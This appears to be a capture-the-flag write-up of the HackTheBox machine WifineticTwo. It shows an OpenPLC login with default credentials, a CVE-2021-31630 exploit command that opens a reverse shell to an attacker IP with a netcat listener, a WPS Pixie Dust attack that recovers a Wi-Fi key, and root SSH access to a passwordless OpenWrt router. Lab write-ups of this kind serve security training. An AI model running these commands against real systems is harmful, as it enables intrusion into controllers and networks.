




+++
title = 'HackTheBox WifineticTwo'
date = 2024-03-16T15:03:55+01:00
draft = true
categories = ['HackTheBox', 'Machine', 'Medium', 'Season 4']
+++

## Enumeration

We begin with a TCP nmap scan.

    sudo nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 10.129.128.171

```
# Nmap 7.94SVN scan initiated Sun Mar 17 16:12:04 2024 as: nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 10.129.128.171                                                      
Nmap scan report for 10.129.128.171                                                                                                                                                                        
Host is up, received user-set (0.11s latency).                                                                                                                                                             
Scanned at 2024-03-17 16:12:04 CET for 161s                                                                                                                                                                
Not shown: 65533 closed tcp ports (reset)                                                                                                                                                                  
PORT     STATE SERVICE    REASON         VERSION                                                                                                                                                           
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                                     
| ssh-hostkey:                                                                                                                                                                                             
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)                                                                                                                                             
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdc
sEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=                                                       
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)                                                                                                                                            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=                                         
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR                                                                                                                         
8080/tcp open  http-proxy syn-ack ttl 63 Werkzeug/1.0.1 Python/2.7.18
...OMITTED...
```

We check port 8080 in our web browser and find an OpenPLC webserver.


We try using the default credentials *openplc:openplc* and successfully gain access.



## RCE via OpenPLC Webserver v3

We'll try peforming RCE CVE-2021-31630 using the script from https://packetstormsecurity.com/files/162563/OpenPLC-WebServer-3-Remote-Code-Execution.html. We analyze the script and change the line:

    compile_program = options.url + '/compile-program?file=681871.st'

to adjust to the name of the program we found in the dashboard:

    compile_program = options.url + '/compile-program?file=blank_program.st'

We set up a listener for the reverse shell.

    nc -nvlp 4444

We launch our modified python script.

    python3 exploit.py -u http://<TARGET_IP>:8080 -l openplc -p openplc -i <ATTACKER_IP> -r 4444

After a moment we successfully gain a reverse shell.



The user flag is located at */root/user.txt*.

## Acquiring Wi-Fi password using Pixie Dust attack with oneshot.py

We stabilize our shell using following commmands.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color SHELL=bash
CTRL+Z
stty raw  -echo;fg;reset
stty rows <YOUR_TERMINAL_ROWS> columns <YOUR_TERMINAL_COLS>
```

We check network interfaces.

    ifconfig

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.2  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fefc:910c  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:fc:91:0c  txqueuelen 1000  (Ethernet)
        RX packets 24588  bytes 2046665 (2.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15854  bytes 1796468 (1.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10  bytes 576 (576.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10  bytes 576 (576.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
We find a *wlan0* interface. We'll scan it further.

    iw dev wlan0 scan

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
        last seen: 16720.612s [boottime]
        TSF: 1710689571207569 usec (19799d, 15:32:51)
        freq: 2412
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -30.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: plcrouter
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0
        DS Parameter set: channel 1
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0
        RSN:     * Version: 1
                 * Group cipher: CCMP
                 * Pairwise ciphers: CCMP
                 * Authentication suites: PSK
                 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                 * current operating class: 81
        Extended capabilities:
                 * Extended Channel Switching
                 * SSID List
                 * Operating Mode Notification
        WPS:     * Version: 1.0
                 * Wi-Fi Protected Setup State: 2 (Configured)
                 * Response Type: 3 (AP)
                 * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                 * Manufacturer:
                 * Model:
                 * Model Number:
                 * Serial Number:
                 * Primary Device Type: 0-00000000-0
                 * Device name:
                 * Config methods: Label, Display, Keypad
                 * Version2: 2.0
```

We learn that it's using WPS. We'll attempt a WPS PIN attack using https://github.com/kimocoder/OneShot. We upload the *oneshot.py* file onto the machine and run a Pixie Dust attack.

    python3 oneshot.py -i wlan0 -K

We successfully crack the PSK of AP with SSID *plcrouter*.



## Unprotected SSH access to the router 

We connect to *plcrouter* using the following commands

```
wpa_passphrase plcrouter "NoWWEDoKnowWhaTisReal123!" | tee /etc/wpa_supplicant/wpa_supplicant.conf
wpa_supplicant -c /etc/wpa_supplicant/wpa_supplicant.conf -i wlan0 -B
```

We request an IP address.

    dhclient

We once again run *ifconig* to check our assigned IP address.



We upload *nmap* and *run-nmap.sh* from https://github.com/ernw/static-toolbox/releases/tag/nmap-v7.94SVN onto the machine and perform a ping sweep of 192.168.1.0/24.

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ./run-nmap.sh -sn 192.168.1.0/24          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 15:48 UTC
Nmap scan report for 192.168.1.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000089s latency).
MAC Address: 02:00:00:00:01:00 (Unknown)
Nmap scan report for attica01.lan (192.168.1.84)
Host is up.
Nmap done: 256 IP addresses (2 hosts up) scanned in 1.87 seconds
```

We find another host in the network with the IP address 192.168.1.1. We probe it further with nmap.

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ./run-nmap.sh -vv --reason -Pn -p- -T5 -sT -oN nmap-result-tcp-internal.txt 192.168.1.1
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 15:50 UTC
Unable to find nmap-services!  Resorting to /etc/services
Unable to find nmap-protocols!  Resorting to /etc/protocols
Initiating Parallel DNS resolution of 1 host. at 15:50
Completed Parallel DNS resolution of 1 host. at 15:50, 0.00s elapsed
Initiating Connect Scan at 15:50
Scanning 192.168.1.1 [65535 ports]
Discovered open port 53/tcp on 192.168.1.1
Discovered open port 22/tcp on 192.168.1.1
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 443/tcp on 192.168.1.1
Completed Connect Scan at 15:50, 2.83s elapsed (65535 total ports)
Nmap scan report for 192.168.1.1
Host is up, received user-set (0.00038s latency).
Scanned at 2024-03-17 15:50:52 UTC for 3s
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
53/tcp  open  domain  syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack

Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 2.85 seconds
```

We check port 80 with curl.

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# curl http://192.168.1.1
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
        <head>
                <meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
                <meta http-equiv="Pragma" content="no-cache" />
                <meta http-equiv="Expires" content="0" />
                <meta http-equiv="refresh" content="0; URL=cgi-bin/luci/" />
                <style type="text/css">
                        body { background: white; font-family: arial, helvetica, sans-serif; }
                        a { color: black; }

                        @media (prefers-color-scheme: dark) {
                                body { background: black; }
                                a { color: white; }
                        }
                </style>
        </head>
        <body>
                <a href="cgi-bin/luci/">LuCI - Lua Configuration Interface</a>
        </body>
</html>
```

Based on the IP address and LuCI Lua configuration interface on port 80, we can make a reasonable guess that this is an OpenWRT router. We refer to https://openwrt.org/docs/guide-quick-start/sshadministration#ssh_access_for_newcomers and try to ssh to the host.

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# ls -al
drwxr-xr-x    2 root     root          4096 Jan  7 21:20 .
drwxr-xr-x   17 root     root          4096 Mar 17 10:54 ..
-rw-r-----    2 root     root            33 Mar 17 10:54 root.txt
```

We successfully gained access to the host and found the root flag.

## References:
- https://www.cvedetails.com/cve/CVE-2021-31630/
- https://packetstormsecurity.com/files/162563/OpenPLC-WebServer-3-Remote-Code-Execution.html
- https://github.com/kimocoder/OneShot/tree/master
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
- https://github.com/ernw/static-toolbox/releases
- https://openwrt.org/docs/guide-quick-start/sshadministration#ssh_access_for_newcomers